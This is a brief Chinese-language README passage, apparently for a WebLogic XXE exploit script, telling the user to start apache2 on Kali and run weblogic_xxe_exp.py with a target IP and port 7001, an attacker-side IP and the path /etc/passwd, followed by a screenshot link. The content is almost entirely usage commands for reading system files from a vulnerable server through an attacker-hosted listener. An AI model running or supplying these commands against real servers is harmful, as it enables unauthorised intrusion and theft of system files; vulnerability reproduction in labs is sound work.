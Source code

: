 #### 由于自己的懒惰需要大家在kali中运行脚本，并且手动启动apache2
```
service apache2 start
python weblogic_xxe_exp.py 192.168.1.113 7001 192.168.1.110 /etc/passwd
```
![](http://kan.027cgb.com/612577/%E7%9F%A5%E9%81%93%E5%88%9B%E5%AE%87/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E6%88%AA%E5%9B%BE/weblogic-1.png)
